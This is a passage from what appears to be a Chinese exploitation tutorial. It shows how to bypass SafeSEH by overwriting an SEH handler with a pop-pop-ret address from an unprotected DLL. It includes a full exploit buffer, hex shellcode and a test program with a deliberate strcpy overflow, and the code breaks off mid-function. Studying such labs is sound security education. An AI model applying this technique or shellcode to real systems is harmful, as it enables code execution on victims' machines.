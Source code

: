 所以将SEH handle的地址覆盖为0x111211B6即可。

SEH指针地址：0x0012FE94

参数的开始地址：0x0012FDB8

所以需要220的patch。

所以payload=patch("0x90"*220)+(0x111211B6)+("0x90"8)+shellcode

测试代码：

```C++
//SEH_NOSafeSEH.EXE
#include<string>
#include <tchar.h>
#include<cstdio>
#include<windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xB6\x11\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
void test(char * input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{

	}
}
int _tmain(int argc, _TCHAR* argv[])
{
	HINSTANCE hInst = LoadLibrary(_T("SEH_NOSafeSEH_JUMP.dll"));//load No_SafeSEH module
```